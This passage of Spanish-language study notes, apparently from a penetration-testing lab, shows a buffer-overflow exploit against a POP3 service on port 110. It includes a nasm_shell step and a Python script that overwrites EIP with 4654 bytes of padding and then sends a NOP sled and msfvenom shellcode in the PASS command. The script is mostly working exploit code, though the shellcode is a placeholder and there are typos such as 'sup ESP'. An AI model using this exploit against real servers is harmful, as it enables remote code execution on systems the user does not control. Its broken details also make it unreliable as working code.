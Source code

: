 - **0x10** son **16 bytes en hexadecimal**

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > sup ESP, 0x10
83EC10
nasm > \x83\xEC\x10 
```
- Añadimos la variable nops para darle tiempo a que se ejecute el shellcode
```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales
ip_address = input("Introduce ua dirección IP: ")
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4c4d13) # La Dirección de una dll sin restricciones
nops = b"\x90"*30
#Si no funciona nops desplazamientopila = b"\x83\xEC\x10"
shellcode = (b"lo que te da msfvenom"
b"0x54"
b"0x49")

payload = before_eip + eip + nops + shellcode


def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

